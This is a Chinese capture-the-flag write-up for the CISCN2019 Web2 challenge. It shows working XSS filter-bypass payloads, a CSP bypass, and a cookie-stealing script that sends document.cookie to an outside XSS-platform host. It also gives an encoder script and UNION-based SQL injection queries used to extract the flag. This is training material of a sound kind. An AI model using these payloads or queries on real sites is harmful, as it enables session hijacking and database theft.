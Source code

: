 # \[CISCN2019 华东北赛区]Web2

## \[CISCN2019 华东北赛区]Web2

## 考点

* xss
* sql注入

## wp

登录注册，有个投稿和反馈的功能。

投稿输入

```javascript
<img src="ssssss.png" onerror="javascript:alert(1)" /> 
```

得到文章页面，访问发现存在过滤

```javascript
<img waf等于号”ssssss.png”="" onerror等于号”javascript:alert（1）”="">
```

反馈处有提示`请输入有问题的网址。我会亲自查看`，应该是个XSS，在投稿插入XSS语句，在反馈处让bot访问XSS页面窃取cookie

反馈处的验证要求验证码md5的前6位符合要求，爆破脚本如下

```python
import hashlib

for i in range(1, 10000001):
    s = hashlib.md5(str(i).encode()).hexdigest()[0:6]
    if s == "0fc428":
        print(i)
        break
```

接下来是如何绕过XSS的过滤。测试发现会把`英文的单双引号，英文的括号`换成`中文`的，然后`<,>svg,eval,script`都没过滤。可以尝试HTML实体编码绕过，`'`是`&#x27;`，`"`是`&#x22;`，`(`是`&#x28;`，`)`是`&#x29;`，=是`&#x3D;`

如下payload可以弹窗

```
<svg><script>alert&#x28;1&#x29;</script></svg>
<svg><script>eval&#x28;atob&#x28;&#x27;YWxlcnQoMSk&#x3D;&#x27;&#x29;&#x29;</script></svg>
<svg><script>&#x65;&#x76;&#x61;&#x6c;&#x28;&#x61;&#x74;&#x6f;&#x62;&#x28;&#x27;&#x59;&#x57;&#x78;&#x6c;&#x63;&#x6e;&#x51;&#x6f;&#x4d;&#x53;&#x6b;&#x3d;&#x27;&#x29;&#x29;</script></svg>
```

编码脚本

```python
res = ''
s="eval(atob('YWxlcnQoMSk='))"
for i in s:
    res = res + '&#' +hex(ord(i))[1:] + ';'
```

发现有CSP，可以使用跳转绕过

* `default-src 'self'` 所有的外部资源只能从当前域名加载
* `script-src unsafe-inline` 允许执行页面内嵌的标签和事件监听函数
* `script-src unsafe-eval` 允许将字符串当作代码执行，比如使用eval、setTimeout、setInterval和Function等函数

![](<../.gitbook/assets/image (2) (1) (2).png>)

到XSS平台新建个项目，然后访问script脚本，得到代码

```javascript
(function() { (new Image()).src = 'https://as.vip/bdstatic.com/?callback=jsonp&id=nRaT&location=' + encodeURIComponent((function() {
        try {
            return document.location.href
        } catch(e) {
            return ''
        }
    })()) + '&toplocation=' + encodeURIComponent((function() {
        try {
            return top.location.href
        } catch(e) {
            return ''
        }
    })()) + '&cookie=' + encodeURIComponent((function() {
        try {
            return document.cookie
        } catch(e) {
            return ''
        }
    })()) + '&opener=' + encodeURIComponent((function() {
        try {
            return (window.opener && window.opener.location.href) ? window.opener.location.href: ''
        } catch(e) {
            return ''
        }
    })());
})();
```

然后把(new Image()).src改成window.location.href，结果如下

```javascript
(function() { window.location.href = 'https://as.vip/bdstatic.com/?callback=jsonp&id=nRaT&location=' + encodeURIComponent((function() {
        try {
            return document.location.href
        } catch(e) {
            return ''
        }
    })()) + '&toplocation=' + encodeURIComponent((function() {
        try {
            return top.location.href
        } catch(e) {
            return ''
        }
    })()) + '&cookie=' + encodeURIComponent((function() {
        try {
            return document.cookie
        } catch(e) {
            return ''
        }
    })()) + '&opener=' + encodeURIComponent((function() {
        try {
            return (window.opener && window.opener.location.href) ? window.opener.location.href: ''
        } catch(e) {
            return ''
        }
    })());
})();
```

用脚本生成一下payload，在XSS平台可以看到自己的cookie

```python
s = '''(function(){window.location.href='https://as.vip/bdstatic.com/?callback=jsonp&id=nRaT&location='+encodeURIComponent((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+encodeURIComponent((function(){try{returntop.location.href}catch(e){return ''}})())+'&cookie='+encodeURIComponent((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+encodeURIComponent((function(){try{return (window.opener&&window.opener.location.href)?window.opener.location.href:''}catch(e){return''}})());})()'''
output = ""

for i in s:
    output += "&#" + hex(ord(i))[1:] + ";"

print("<svg><script>eval&#x28;&#x22;" + output + "&#x22;&#x29;</script></svg>")
```

<mark style="color:red;">然后到反馈里面填链接如下</mark>

```
http://web.node3.buuoj.cn:81/post/8933fc518918c6156409c3c2fe884a5f.html
```

![](<../.gitbook/assets/image (11) (1) (1) (1) (1).png>)

修改cookie再去访问admin.php，发现是个查询的功能

![](<../.gitbook/assets/image (28) (1) (1).png>)

尝试SQL注入，输入`id=3-1`，得到`id=2`的结果，是数字型注入

然后尝试联合注入`id=-1 union select 1,2,3`

当前数据库`id=-1 union select 1,(select database()),3` 得到`ciscn`

查询所有数据库`id=-1 union select 1,(select group_concat(schema_name) from information_schema.schemata),3`

得到`information_schema,ctftraining,mysql,performance_schema,test,ciscn`

当前数据库的表`id=-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='ciscn'),3`

得到`flag,users`

查询flag表`id=-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='flag'),3`

得到`flagg`

查询flag `id=-1 union select 1,(select flagg from flag),3`

可以得到flag

![](<../.gitbook/assets/image (14) (1).png>)

## 小结

1. XSS绕过的方式可以用HTML实体转义，有两种方式`&#x十六进制;`和`&#十进制;`
2. CSP绕过可以尝试`window.location.href`跳转的方式

